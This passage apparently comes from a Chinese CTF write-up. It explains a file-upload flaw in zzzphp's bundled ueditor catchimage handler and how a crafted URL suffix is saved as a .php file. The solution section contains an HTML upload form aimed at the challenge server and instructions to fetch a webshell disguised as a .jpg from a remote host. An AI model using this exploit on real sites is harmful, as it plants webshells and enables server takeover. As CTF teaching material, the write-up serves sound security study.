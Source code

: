 最终 FLAG: **flag`{`wa0_7900588_is_right`}`**

### **Hacked_By_Wendell**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0191cb502b394f0806.png)

Hint1： 不需要注册，寻找网站薄弱的地方

Hint2： 源于一个很古老的洞

这题和 **dangerous-function** 都是 zzzphp 的 0day，所有两题给了一份源码审，然后再题目里把对方的洞删掉了。这题其实这题的洞在**/plugins/ueditor/php/controller.php ** 下的 catchimage，也就是类似老版本的 ueditor 的文件上传漏洞。

**代码审计：**

[![](https://p0.ssl.qhimg.com/t01b421f3d341a124a4.png)](https://p0.ssl.qhimg.com/t01b421f3d341a124a4.png)

首先跟进 controller.php 下的 **down_url** 函数，其在/inc/zzz_file.php

其使用 **file_ext** 函数限制上传后缀， **file_name** 函数确定文件名，继续跟进

[![](https://p2.ssl.qhimg.com/t01b0ac051df8a56750.png)](https://p2.ssl.qhimg.com/t01b0ac051df8a56750.png)

同文件下的 **file_ext** 函数，其会判断？的存在，若存在，则后缀名是？前面的 **.** 后面的东西。

[![](https://p5.ssl.qhimg.com/t01f2f79fb6a72dee9c.png)](https://p5.ssl.qhimg.com/t01f2f79fb6a72dee9c.png)

继续查看 **file_name** 函数，就是此函数造成的上传漏洞，具体可以看例子。

[![](https://p0.ssl.qhimg.com/t0184bbc561b87d2a88.png)](https://p0.ssl.qhimg.com/t0184bbc561b87d2a88.png)

[![](https://p2.ssl.qhimg.com/t012baedc3d3e428828.png)](https://p2.ssl.qhimg.com/t012baedc3d3e428828.png)

此处 path=[http://127.0.0.1/123.jpg?/123.php](http://127.0.0.1/123.jpg?/123.php)<br>
但返回的文件名为 123.php

**解题：**

编写一个 HTML 文件来上传恶意文件

```
&lt;form action="http://47.52.161.149:10001/plugins/ueditor/php/controller.php?action=catchimage"enctype="application/x-www-form-urlencoded" method="POST"&gt; 
shell addr: &lt;input type="text" name="source[]" /&gt; 
&lt;input type="submit" value="Submit" /&gt; 
&lt;/form&gt;
```

远程服务器上放个 info.jpg 的马，上传的时候要写的 info.jpg?/123.php

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01876cb51bfd5cd2cc.png)
